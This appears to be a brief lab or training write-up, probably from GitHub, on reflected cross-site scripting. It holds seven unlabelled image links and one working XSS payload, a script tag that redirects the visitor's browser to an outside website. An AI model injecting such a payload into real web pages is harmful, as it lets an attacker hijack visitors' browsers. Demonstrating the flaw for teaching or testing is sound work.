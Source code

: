#### A3 : Reflected Cross-Site Scripting (XSS)

![](images/3/1.png)

![](images/3/2.png)

![](images/3/3.png)

![](images/3/4.png)

![](images/3/5.png)

![](images/3/6.png)

![](images/3/7.png)

- Payload

```
<script>window.location.href = "http://opendns.com";</script> 
```